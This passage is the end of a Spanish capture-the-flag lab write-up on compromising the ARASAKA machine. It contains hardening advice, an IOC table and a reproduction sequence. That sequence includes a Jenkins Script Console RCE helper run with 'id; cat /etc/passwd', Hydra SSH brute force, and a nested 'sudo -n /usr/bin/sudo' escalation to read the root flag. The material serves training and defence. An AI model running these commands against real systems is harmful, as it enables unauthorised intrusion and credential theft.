   y añadir rate limiting/Fail2Ban. Las contraseñas temáticas son triviales de generar.
6. **Aislar Jenkins.** No debe compartir host con cuentas humanas ni con un `sudoers` privilegiado.
   Contenedor dedicado, sistema de ficheros de solo lectura y sin acceso al Docker del host.
7. **Revisar la exposición de versiones.** No publicar `X-Jenkins` ni el listener JNLP si no se usan
   agentes; si se usan, exigir TLS y secretos de agente.
8. **Gestionar parches con criterio.** No basta con ver una CVE en un README: hay que comprobar la
   versión, el backport de la distribución y si el vector es realmente alcanzable.
9. **Monitorizar los patrones de este ataque:** accesos a `/script`, ejecuciones de `sudo` que
   invocan a `sudo`, login SSH con contraseña y picos de intentos fallidos.

---

## 11. Trazabilidad: de dónde sale cada afirmación

| # | Afirmación | Origen | Artefacto |
|---|---|---|---|
| 1 | Puertos 22, 80, 8080 y 38799 abiertos | Objetivo | `recon/nmap-full.txt` |
| 2 | Apache 2.4.52, OpenSSH 8.9p1, Jetty 10.0.20, Jenkins 2.452.4 | Objetivo | `recon/nmap-services.txt` |
| 3 | La portada del 80 es estática y enlaza a Jenkins | Objetivo | `recon/web-root.html`, `docs/img/02-web.png` |
| 4 | Jenkins exige autenticación (`allowAnonymousRead=false`) | Objetivo | `recon/jenkins-whoami.json`, `recon/jenkins-root.html` |
| 5 | `admin:admin123` es aceptada | Objetivo | `shots/captures/05_whoami.json`, `docs/img/04-jenkins-admin.png` |
| 6 | La contraseña está en claro en `basic-security.groovy` | Objetivo | `loot/jenkins-config.txt` |
| 7 | RCE como `uid=999(jenkins)` | Objetivo | `loot/jenkins-id.txt`, `docs/img/05-rce-jenkins.png` |
| 8 | `jenkins` no tiene capabilities ni `docker.sock` | Objetivo | `loot/caps-jenkins.txt`, `loot/enum-pivot.txt` |
| 9 | La cuenta `jenkins` está bloqueada para SSH | Objetivo | `loot/enum-extra.txt` (`passwd -S`) |
| 10 | SSH acepta contraseñas y no hay Fail2Ban | Objetivo | `loot/enum-pivot.txt`, `loot/enum-vsaburo2.txt` |
| 11 | Hydra obtiene `netrunner:netrunner2077` | Objetivo | `loot/hydra-ssh.txt` |
| 12 | `vsaburo:arasaka` y `johnny:silverhand` son válidas | Objetivo | `shots/captures/08_vsaburo.txt`, `08_johnny.txt` |
| 13 | `netrunner` tiene `(ALL) NOPASSWD: /usr/bin/sudo` | Objetivo | `loot/sudoers-y-version.txt`, `docs/img/07-sudo-l.png` |
| 14 | El `sudo` anidado devuelve `uid=0(root)` | Objetivo | `shots/captures/10_sudo_sudo.txt`, `docs/img/08-sudo-sudo.png` |
| 15 | La bandera es `ARASAKA{sudo_chr00t_s0ulk1ll3r_n1ght_c1ty}` | Objetivo | `loot/flag.txt`, `docs/img/09-flag.png` |
| 16 | Ubuntu 22.04 figura como *Not affected* para CVE-2025-32463 | **Análisis / consulta** | `recon/cve-2025-32463-ubuntu.txt`, `docs/img/11-cve-decoy.png` |
| 17 | La validación oficial fue aceptada | Validador | `loot/validacion.txt`, `loot/validacion-raw.txt`, `docs/img/12-validacion.png`, `docs/img/13-validacion-real.png` |

---

## 12. Indicadores de compromiso (IOC)

| Indicador | Valor |
|---|---|
| IP atacante | `172.17.0.1` |
| IP objetivo | `172.17.0.2` |
| Credencial Jenkins | `admin` / `admin123` |
| Endpoint abusado | `POST /script` (Script Console) |
| Patrón de payload | `echo <base64> \| base64 -d \| /bin/bash` vía `ProcessBuilder` |
| Usuarios SSH comprometidos | `vsaburo`, `johnny`, `netrunner` |
| Regla sudo abusada | `netrunner ALL=(ALL) NOPASSWD: /usr/bin/sudo` |
| Comando de escalada | `sudo -n /usr/bin/sudo -n id` |
| Ficheros leídos | `/etc/passwd`, `/etc/sudoers`, `/root/flag.txt` |
| Persistencia | Ninguna: solo lectura y ejecución en memoria |
| Bandera | `ARASAKA{sudo_chr00t_s0ulk1ll3r_n1ght_c1ty}` |

---

## 13. Estructura del repositorio

```text
.
├── README.md                     Este documento
├── docs/img/                     13 capturas del writeup
│   ├── 01-recon.png              Puertos y servicios
│   ├── 02-web.png                Portada estática
│   ├── 03-jenkins-login.png      Login y fingerprint
│   ├── 04-jenkins-admin.png      admin:admin123 y Script Console
│   ├── 05-rce-jenkins.png        RCE como jenkins
│   ├── 06-pivotes.png            Credenciales SSH débiles
│   ├── 07-sudo-l.png             Regla NOPASSWD
│   ├── 08-sudo-sudo.png          Escalada a root
│   ├── 09-flag.png               Bandera
│   ├── 10-cadena.png             Cadena completa
│   ├── 11-cve-decoy.png          CVE señuelo
│   ├── 12-validacion.png         Validación oficial (recreación)
│   └── 13-validacion-real.png    Captura real de la validación
├── exploits/
│   ├── jenkins_rce.py            Helper de RCE vía Script Console
│   └── enum_jenkins.sh           Enumeración ejecutada como jenkins
├── recon/                        Salidas crudas de reconocimiento
│   ├── nmap-full.txt             Escaneo completo de puertos
│   ├── nmap-services.txt         Versiones y fingerprint
│   ├── web-root.html             HTML de la portada
│   ├── web-headers.txt           Cabeceras del :80
│   ├── jenkins-headers.txt       Cabeceras del :8080
│   ├── jenkins-login.html        Formulario de login
│   ├── jenkins-whoami.json       whoAmI sin sesión (anónimo)
│   ├── jenkins-api.json          API sin sesión (redirección a login)
│   ├── jenkins-crumb.json        Crumb CSRF usado por el helper
│   ├── gobuster-80.txt           Enumeración del :80
│   ├── gobuster-8080.txt         Enumeración del :8080
│   └── cve-2025-32463-*.txt      Consulta a Canonical (señuelo)
├── loot/                         Evidencia del compromiso
│   ├── flag.txt                  Bandera obtenida
│   ├── validacion.txt            Salida limpia del validador
│   ├── validacion-raw.txt        Salida ANSI completa
│   ├── hydra-ssh.txt             Hit de Hydra
│   ├── sudoers-y-version.txt     Regla sudo y versión de sudo
│   ├── enum-jenkins.txt          Enumeración como jenkins
│   ├── caps-jenkins.txt          Capabilities del proceso
│   ├── pivot-vsaburo.txt         Acceso como vsaburo
│   ├── pivot-johnny.txt          Acceso como johnny
│   ├── pivot-netrunner.txt       Acceso como netrunner
│   └── jenkins-config.txt        Configuración y contraseña en claro
├── notes/bitacora.md             Cronología y decisiones del análisis
└── wordlists/
    ├── arasaka_users.txt         Usuarios probados con Hydra
    ├── arasaka_passwords.txt     1 582 contraseñas temáticas
    └── gen_wordlist.py           Generador de la wordlist
```

> ⚠️ **Las credenciales de este documento son las del laboratorio de entrenamiento.** No son
> secretos reales. Aun así, en un entorno productivo cualquiera de estos hallazgos obliga a rotar
> las credenciales expuestas, revisar los registros de Jenkins, SSH y `sudo`, y comprobar si el
> acceso se produjo antes de la auditoría.

---

## 14. Conclusiones

ARASAKA no se rompe por una CVE exótica ni por una web vulnerable: se rompe por **tres decisiones
de configuración** que se refuerzan entre sí. La portada y el directorio de investigación de la CVE
son ruido deliberado; el camino real es el más antiguo del mundo: credenciales débiles, reutilización
de contraseñas y una regla de `sudo` mal escrita.

La lección más importante es la regla `NOPASSWD: /usr/bin/sudo`. A simple vista parece limitar a
`netrunner` a un único binario; en realidad le entrega el control total del sistema, porque ese
binario es precisamente el que decide quién puede ejecutar qué como `root`. Una regla de `sudoers`
debe autorizar **comandos concretos**, nunca el propio mecanismo de autorización.

---

## Anexo A — Herramientas y reproducción rápida

| Herramienta | Uso en este laboratorio |
|---|---|
| `nmap` 7.99 | Descubrimiento de puertos y fingerprint de servicios |
| `curl` | Verificación de la web, login de Jenkins y API `whoAmI` |
| `gobuster` | Enumeración de rutas en :80 y :8080 |
| `Hydra` 9.7 | Fuerza bruta SSH con la wordlist temática |
| `sshpass` + `ssh` | Validación de las credenciales y ejecución remota de comandos |
| Python 3 | Helper de RCE (`exploits/jenkins_rce.py`) y generación de wordlist |
| Chromium headless + Pillow | Generación de las capturas PNG (`shots/make_images.py`) |

Secuencia mínima para reproducir la ruta crítica:

```bash
# 1) Reconocimiento
nmap -Pn -p- --min-rate 4000 -T4 172.17.0.2
nmap -Pn -sV -sC -p 22,80,8080,38799 172.17.0.2

# 2) Jenkins: login débil y RCE
python3 exploits/jenkins_rce.py 'id; cat /etc/passwd'

# 3) Pivote SSH (netrunner es la cuenta con sudo)
hydra -L wordlists/arasaka_users.txt -P wordlists/arasaka_passwords.txt \
      -t 4 -I -o loot/hydra-ssh.txt ssh://172.17.0.2
sshpass -p netrunner2077 ssh netrunner@172.17.0.2

# 4) Escalada y bandera
sudo -n /usr/bin/sudo -n id
sudo -n /usr/bin/sudo -n cat /root/flag.txt
```

> Ejecutar solo contra el contenedor del laboratorio. `hydra` y `sshpass` deben usarse con permiso
> explícito del propietario del sistema auditado.


